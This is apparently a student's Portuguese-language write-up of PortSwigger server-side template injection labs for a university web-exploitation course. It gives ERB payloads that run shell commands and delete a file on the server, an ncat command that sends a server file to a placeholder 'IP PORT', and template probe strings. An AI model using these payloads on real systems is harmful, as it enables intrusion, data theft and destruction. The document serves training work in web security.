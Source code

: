 # FIAP - 3° Checkpoint - Server-Side Template Injection

## Introdução
Checkpoint realizado com o intuito de colocar em prática todos os conhecimentos sobre vulnerabilidades web na matéria de Web Exploit, ministrada pelo [Professor Rafael Trassi](https://www.linkedin.com/in/rafael-trassi/).

## Feito por

- Matheus Rosa

## Vulnerabilidade

A Server-Side Template Injection ocorre quando um invasor é capaz de usar a sintaxe nativa do modelo para injetar uma carga maliciosa em um modelo, que é então executado no lado do servidor.

Os mecanismos de modelo são projetados para gerar páginas da web combinando modelos fixos com dados voláteis. Ataques de injeção de modelo no servidor podem ocorrer quando a entrada do usuário é concatenada diretamente em um modelo, em vez de ser transmitida como dados. Isso permite que invasores injetem diretivas de modelo arbitrárias para manipular o mecanismo de modelo, muitas vezes permitindo que eles assumam o controle total do servidor. Como o nome sugere, as cargas úteis de injeção de modelo no lado do servidor são entregues e avaliadas no lado do servidor, tornando-as potencialmente muito mais perigosas do que uma injeção típica de modelo no lado do cliente.

## Print da Conta 
* Envie um print da área de detalhes da conta após ter logado
<img src="imagens/Imagem1.png">

# Exercício 0x01 - Lab

Link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic  

## 01 - Uma captura de tela completa com a mensagem de erro produzida pela aplicação quando um item está esgotado no estoque.

<img src="imagens/Imagem2.png">

## 02 - Uma captura de tela completa como prova de que você consegue realizar operações simples ou multiplicar uma string (exemplo: 'FIAP' * 10). Exiba o seu payload na barra de endereços.

<img src="imagens/Imagem3.png">

## 03 - Envie um print mostrando qual o hash MD5 do arquivo morale.txt.

Comando Utilizado: 
```
<%= system('md5sum morale.txt') %>
```

<img src="imagens/Imagem4.png">

## 04 - Responda qual o tipo de arquivo é o morale.txt.

Comando Utilizado: 
```
<%= system('file morale.txt') %>
```
__R: morale.txt é um arquivo openssl enc'd data with salted password__

## 05 - Demonstre como você copiaria o arquivo morale.txt do servidor do lab. Também forneça prova de que este arquivo foi copiado na sua própria máquina demonstrando as saídas dos comandos file, ls e md5sum no seu próprio terminal.

__R: Para transferir o arquivo do servidor para a minha maquina local eu utilizaria o ncat. Basicamente abriria uma porta em modo listening no meu kali e na URL passaria o comando:__

Kali:
```
ncat -nvlp 1337
````
Este comando irá abrir e ficar escutando a porta 1337 da máquina local

Máquina Alvo:
```
ncat IP PORT < morale.txt
````
O comando ira se conectar com o Kali e enviará o arquivo morale.txt após conexão.

### Prints

- md5sum
  <img src="imagens/Imagem4.png">
- file
  <img src="imagens/Imagem5.png">
- ls
  <img src="imagens/Imagem6.png">

## 06 - Forneça o payload utilizado para completar o primeiro laboratório e a evidência que você conseguiu completá-lo.

Comando Utilizado: 

```
<%= system(' rm morale.txt ') %>
```

<img src="imagens/Imagem7.png">

## 07 - Em qual linguagem o sistema de template está sendo executado?

__R: Ele foi escrito em RUBY__

<img src="imagens/Imagem8.png">

# Exercício 0x02 - Lab

Link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context 

## 01 - Uma captura de tela completa (exibindo o endereço do seu laboratório) com um comentário anônimo contendo seu primeiro nome e RM.

<img src="imagens/Imagem9.png">

## 02 - Uma captura de tela completa (exibindo o endereço do seu laboratório e seu payload) com prova de que você consegue realizar operações simples, tais como: somar ou multiplicar dois números ou multiplicar uma string.

<img src="imagens/Imagem10.png">
<img src="imagens/Imagem11.png">

## 03 - Em qual linguagem o sistema de template está sendo executado?

__R: O sistema template Tornado esta sendo executado em python__

## 04 - Forneça evidência de que conseguiu completar o objetivo deste laboratório.

<img src="imagens/Imagem12.png">
<img src="imagens/Imagem13.png">

# Extra

Entrando na aplicação temos isso:
<img src="imagens/Imagem14.png">

Primeiramente testei os tipos de payload para ver qual era aceito pelo servidor. 
````
{{7*7}} 
${7*7} 
<%= 7*7 %> 
${{7*7}}
#{7*7} 
````
Colocando na caixa de entrada, é possível ver que alguns são lidos e outros não.
<img src="imagens/Imagem15.png">

